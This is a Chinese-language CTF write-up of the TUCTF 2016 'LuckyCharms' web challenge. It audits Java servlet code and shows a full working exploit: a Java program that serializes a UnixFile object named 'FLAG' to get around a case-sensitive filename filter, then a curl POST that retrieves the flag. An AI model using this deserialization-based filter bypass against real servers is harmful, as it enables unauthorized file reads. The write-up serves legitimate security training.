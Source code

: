 ```yaml
---
layout:     post
title:      "tuctf2016-web-LuckyCharms"
date:       2016-05-30 01:00
category:   writeup
tag:        [tuctf2016,代码审计,文件读取]
---
```

# 题目信息

`score: 200` `type:web,代码审计，文件读取` `source: tuctf2016`

[原题地址](http://146.148.10.175:1033/LuckyCharms) &emsp;[猜解源码](http://github.com/ssst0n3/ctf-wps/2016/tuctf/web/LuckyCharms)
&emsp;[题目收集](http://ctf.a306.xyz:8000/LuckyCharms/LuckyCharms)

## 题目描述

打开网址，一个简单的网页

![](tuctf2016-LuckyCharms-1.png)

## 知识点

servlet
* web.xml
* init(),doGet(),doPost()

curl使用

# 题目分析

## 查看源代码

页面本身没什么特别的，查看源代码发现一段注释

```
<!DOCTYPE html>
<html>
<body>
Frosted Lucky Charms,
<br>
They're magically delicious!
<br>
<img src="https://upload.wikimedia.org/wikipedia/en/f/ff/Lucky-Charms-Cereal-Box-Small.jpg">
<!-- <a href="/?look=LuckyCharms.java"></a> -->
</body>
</html>
```

## 访问链接

访问`view-source:http://ctf.a306.xyz:8000/LuckyCharms/LuckyCharms?look=LuckyCharms.java`,得到`LuckyCharms.java`源代码，由此可知本题为`java代码审计`+`文件内容读取`

![](tuctf2016-LuckyCharms-2.png)

## 分析源码

代码主要是定义了一个读取文件内容的操作，根据windows和unix对大小写是否敏感以及get和post请求的差别进行了区分，设计了一定的过滤规则。我们的任务就是首先分析源码，然后绕过过滤规则

### 定义文件类

定义OSFile类，包含file属性，表示文件名；getFileName函数，在返回文件名之前对文件名做一定的处理

```
abstract class OSFile implements Serializable {
  String file = "";
  abstract String getFileName();
}
```

定义WindowsFile类，继承OSFile，因为windows对大小写不敏感，因此把文件名转换成小写

```
class WindowsFile extends OSFile  {
  public String getFileName() {
    //Windows filenames are case-insensitive
    return file.toLowerCase();
  }
}
```

定义UnixFile类，继承OSFile，因为unix对大小写敏感，因此不用转换

```
class UnixFile extends OSFile {
  public String getFileName() {
    //Unix filenames are case-sensitive, don't change
    return file;
  }
}
```

### 重写doGet(),doPost()

#### 获取文件名

```
OSFile osfile = null;
try {
  //如果将内容以post方式传输，则读取，否则跳至catch
  osfile = (OSFile) new ObjectInputStream(request.getInputStream()).readObject();
} catch (Exception e) {
  //Oops, let me help you out there
  //创建windowsFile,注意这里是对大小写不敏感的
  osfile = new WindowsFile();
  if (request.getParameter("look") == null) {
    osfile.file = "charms.html";
  } else {
    osfile.file = request.getParameter("look");
  }
}
```

#### 过滤以及输出文件内容

```
//对'/'进行转义
String f = osfile.getFileName().replace("/","").replace("\\","");

//如果文件名存在'flag'，则过滤
//注意，contains函数是大小写敏感的

if (f.contains("flag")) {
  //bad hacker!
  out.println("You'll Never Get Me Lucky Charms!");
  return;
}

//将文件名转换成小写形式
try {
  Path path = Paths.get(getServletContext().getRealPath(f.toLowerCase()));
  System.out.print(path);
  String content = new String(java.nio.file.Files.readAllBytes(path));
  out.println(content);
 } catch (Exception e) {
    out.println("Nothing to see here");
 }
```

#### 分析漏洞

我们注意到contains函数是对大小写敏感的，考虑是否能从此绕过

因为get请求创建的是WindowsFile类的对象，因此无法绕过contains()对"flag"的过滤

而UnixFile类没有对文件名进行大小写转换，因此可以使用类似"FLAG"的文件名绕过过滤

而GET请求使用的是WindowsFile类，因此必须通过POST请求传输一个UnixFile对象，该对象的file属性为"FLAG"

#### Exploit
```
import java.io.*;


abstract class OSFile implements Serializable {
  String file = "";
  abstract String getFileName();
}

class UnixFile extends OSFile {
  public String getFileName() {
    //Unix filenames are case-sensitive, don't change
    return file;
  }
}


public class Hax {

    public static void main(String[] args) {
    UnixFile f = new UnixFile();
        f.file = "FLAG";
    try
    {
        FileOutputStream fileOut = new FileOutputStream("/tmp/Hax.bin");
            ObjectOutputStream out = new ObjectOutputStream(fileOut);
            out.writeObject(f);
            out.close();
            fileOut.close();
            System.out.printf("Serialized data is saved in /tmp/Hax.bin\n");
        }catch(IOException i)
        {
            i.printStackTrace();
        }

    }

}
```

```
$ javac Hax.java && java Hax
Serialized data is saved in /tmp/Hax.bin
$file /tmp/Hax.bin
Hax.bin: Java serialization data, version 5
$ curl -X POST --data-binary @Hax.bin 'http://ctf.a306.xyz:8000/LuckyCharms/LuckyCharms'
TUCTF{a_cup_of_joe_keeps_the_hackers_away}
```

# 参考文献

https://github.com/smokeleeteveryday/CTF_WRITEUPS/tree/master/2016/TUCTF/web/LuckyCharms
